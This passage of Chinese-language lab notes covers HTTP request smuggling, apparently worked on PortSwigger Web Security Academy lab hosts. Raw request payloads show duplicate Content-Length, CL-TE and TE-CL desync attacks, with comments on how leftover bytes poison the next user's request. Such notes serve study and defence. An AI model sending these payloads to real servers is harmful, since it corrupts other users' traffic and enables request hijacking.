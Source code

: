 ```
POST / HTTP/1.1rn
Host: example.comrn
Content-Length: 8rn
Content-Length: 7rn

12345rn
a
```

前端检查的是第一个CL，而后端检查第二个，导致走私。

> 例子中，CL为7时，a并未被读取，a被拼接到下一个http请求中，导致后面的用户使用受影响。

### 实验3：CL-TE

当收到存在两个请求头的请求包时，前端代理只CL请求头，而后端只处理TE请求头。

由于后端不检查CL，所以可以伪造TE，导致当前数据流入下一个数据包

```
POST / HTTP/1.1rn
Host: ace01fcf1fd05faf80c21f8b00ea006b.web-security-academy.netrn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0rn
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8rn
Accept-Language: en-US,en;q=0.5rn
Cookie: session=E9m1pnYfbvtMyEnTYSe5eijPDC04EVm3rn
Connection: keep-alivern
Content-Length: 6rn	//请求体中的/r/n要算入字符
Transfer-Encoding: chunkedrn
rn
0rn	//chunk分块长度为0
rn
G	//该字符流入下一个HTTP请求中，使得服务器解析下一个包时出现错误
```

### 实验4：TE-CL

即前端处理TE，而后端处理CL

```
POST / HTTP/1.1rn
Host: acf41f441edb9dc9806dca7b00000035.web-security-academy.netrn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0rn
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8rn
Accept-Language: en-US,en;q=0.5rn
Cookie: session=3Eyiu83ZSygjzgAfyGPn8VdGbKw5ifewrn
Content-Length: 4rn	//前端不检查，后端只读取前4
Transfer-Encoding: chunkedrn	//chunk分块正常
rn
12rn	//被后端读取至此结束
GPOST / HTTP/1.1rn	//下方内容作为下一个http请求流入
rn
0rn
rn
```
